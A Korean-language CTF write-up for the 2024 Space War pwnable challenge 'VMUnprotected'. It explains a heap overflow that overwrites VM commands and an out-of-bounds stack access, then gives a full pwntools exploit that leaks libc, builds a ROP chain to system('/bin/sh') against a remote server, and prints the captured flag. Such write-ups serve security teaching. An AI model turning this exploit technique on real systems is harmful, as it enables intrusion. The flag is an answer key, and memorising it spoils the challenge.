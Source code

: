```yaml
---
title: 2024 Space War Write-up
categories: CTF
comment: true
---
```


- 이름: 정지민
- 닉네임: mini_chip
- 소속: 고려대학교 사이버국방학과
- 이메일: jjm4043@gmail.com

---

## VMUnprotected

- 분야 - Pwnable
- 체감 난이도(1-10): 3

### Binary 분석

![Untitled](/CTF/Hspace_Space_War/img/Untitled.png)

문제의 이름처럼 전형적인 VM 문제입니다.

해당 문제의 경우에는, VM 바이너리 내부에 VM에서 실행되는 command까지 같이 들어 있습니다. 이 command값에 따라 그에 맞는 switch case문이 실행됩니다.

![Untitled](/CTF/Hspace_Space_War/img/Untitled_1.png)

ptr은 switch문의 case 2에서 getchar를 반복 실행하며 입력 받은 문자열을 저장하는 공간입니다.

dest는 command가 담겨있습니다.

![Untitled](/CTF/Hspace_Space_War/img/Untitled_2.png)

![Untitled](/CTF/Hspace_Space_War/img/Untitled_3.png)

getchar를 받는 로직을 살펴보면 “\n”을 입력 받을 때까지 무한대로 입력이 가능한 것을 확인할 수 있습니다. 이렇게 되면 malloc(0xFE)로 할당 받은 공간을 overflow시킬 수 있습니다.

힙 구조 상 해당 chunk와 인접한 chunk가 dest가 가리키는 chunk가 되며, 이는 command가 들어가 있는 chunk입니다. 그래서 ptr chunk를 overflow시켜서 command값을 overwrite하고 command를 마음대로 조작할 수 있는 취약점이 발생합니다.

![Untitled](/CTF/Hspace_Space_War/img/Untitled_4.png)

command로 수행되는 로직을 살펴보면,

command 값인 opcode(v3)와 idx값에 따라 지역 변수 v4 주변의 값들을 조작할 수 있습니다.

v4 주변의 값을 읽을 수도 있고, 해당 영역에 원하는 값을 쓰는 것도 가능합니다.

특히, 선언된 v4는 8byte 크기이지만 command로 입력될 수 있는 idx는 8보다 큰 값이 들어갈 수 있습니다.

스택에서 지역 변수 v4 아래에 있는 값 중 main함수의 ret address에 있는 값을 읽으면 libc 주소를 알아낼 수 있습니다. 그리고 ROP 세팅을 해준 뒤에 해당 함수를 종료시키면 쉘을 딸 수 있습니다.

### Exploit Code

```python
from pwn import *

p = remote("3.34.190.217", 8002)
#p = process("./VMUnprotect")
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")

payload = b"A" * 0x110
payload += b"A" * 240

#libc_start_main_leak
payload += b"\x01\x28"
payload += b"\x01\x29"
payload += b"\x01\x2a"
payload += b"\x01\x2b"
payload += b"\x01\x2c"
payload += b"\x01\x2d"
payload += b"\x01\x2e"
payload += b"\x01\x2f"
payload += b"\x02"
p.sendline(payload)

p.recvuntil(": ")

libc_start_main = u64(p.recvn(8))
print(hex(libc_start_main))
libc_base = libc_start_main - 0x029d90
system_addr = libc_base + 0x050d70
pop_rdi = libc_base + 0x000000000002a3e5
bin_sh = libc_base + 0x1d8678
ret = libc_base + 0x0000000000029139

#ROP Chaining
payload = b"\x04\x18" + (pop_rdi & 0xff).to_bytes(1, byteorder="little")
payload += b"\x04\x19" + ((pop_rdi >> 8) & 0xff).to_bytes(1, byteorder="little")
payload += b"\x04\x1a" + ((pop_rdi >> 16) & 0xff).to_bytes(1, byteorder="little")
payload += b"\x04\x1b" + ((pop_rdi >> 24) & 0xff).to_bytes(1, byteorder="little")
payload += b"\x04\x1c" + ((pop_rdi >> 32) & 0xff).to_bytes(1, byteorder="little")
payload += b"\x04\x1d" + ((pop_rdi >> 40) & 0xff).to_bytes(1, byteorder="little")
payload += b"\x04\x1e" + ((pop_rdi >> 48) & 0xff).to_bytes(1, byteorder="little")
payload += b"\x04\x1f" + ((pop_rdi >> 56) & 0xff).to_bytes(1, byteorder="little")

payload += b"\x04\x20" + (bin_sh & 0xff).to_bytes(1, byteorder="little")
payload += b"\x04\x21" + ((bin_sh >> 8) & 0xff).to_bytes(1, byteorder="little")
payload += b"\x04\x22" + ((bin_sh >> 16) & 0xff).to_bytes(1, byteorder="little")
payload += b"\x04\x23" + ((bin_sh >> 24) & 0xff).to_bytes(1, byteorder="little")
payload += b"\x04\x24" + ((bin_sh >> 32) & 0xff).to_bytes(1, byteorder="little")
payload += b"\x04\x25" + ((bin_sh >> 40) & 0xff).to_bytes(1, byteorder="little")
payload += b"\x04\x26" + ((bin_sh >> 48) & 0xff).to_bytes(1, byteorder="little")
payload += b"\x04\x27" + ((bin_sh >> 56) & 0xff).to_bytes(1, byteorder="little")

payload += b"\x04\x28" + (ret & 0xff).to_bytes(1, byteorder="little")
payload += b"\x04\x29" + ((ret >> 8) & 0xff).to_bytes(1, byteorder="little")
payload += b"\x04\x2a" + ((ret >> 16) & 0xff).to_bytes(1, byteorder="little")
payload += b"\x04\x2b" + ((ret >> 24) & 0xff).to_bytes(1, byteorder="little")
payload += b"\x04\x2c" + ((ret >> 32) & 0xff).to_bytes(1, byteorder="little")
payload += b"\x04\x2d" + ((ret >> 40) & 0xff).to_bytes(1, byteorder="little")
payload += b"\x04\x2e" + ((ret >> 48) & 0xff).to_bytes(1, byteorder="little")
payload += b"\x04\x2f" + ((ret >> 56) & 0xff).to_bytes(1, byteorder="little")

payload += b"\x04\x30" + (system_addr & 0xff).to_bytes(1, byteorder="little")
payload += b"\x04\x31" + ((system_addr >> 8) & 0xff).to_bytes(1, byteorder="little")
payload += b"\x04\x32" + ((system_addr >> 16) & 0xff).to_bytes(1, byteorder="little")
payload += b"\x04\x33" + ((system_addr >> 24) & 0xff).to_bytes(1, byteorder="little")
payload += b"\x04\x34" + ((system_addr >> 32) & 0xff).to_bytes(1, byteorder="little")
payload += b"\x04\x35" + ((system_addr >> 40) & 0xff).to_bytes(1, byteorder="little")
payload += b"\x04\x36" + ((system_addr >> 48) & 0xff).to_bytes(1, byteorder="little")
payload += b"\x04\x37" + ((system_addr >> 56) & 0xff).to_bytes(1, byteorder="little")

#End VM Logic
payload += b"\x20"
p.sendline(payload)

p.interactive()
```

![Untitled](/CTF/Hspace_Space_War/img/Untitled_5.png)

`flag: hspace{7a9de3a22d89b3c343d4d5ec621dcfba1e6091b144cb24abe43b6a888ff61bef}`

### 후기

일반적으로 Pwnable에서 출제되는 VM 문제의 경우 대부분 command를 직접 작성할 수 있게 해주지만, 이 문제의 경우 대놓고 command를 작성할 수는 없었습니다. command를 조작할 수 있는 취약 점을 찾은 뒤에 VM을 탈출할 수 있도록 command를 적절히 조작하는 점이 상당히 재미있었습니다.

command를 조작할 수 있는 취약점 자체와 쉘을 따는 command를 작성하는 것 자체는 상당히 쉬웠기 때문에 크게 어렵지는 않은 문제라고 생각합니다.

---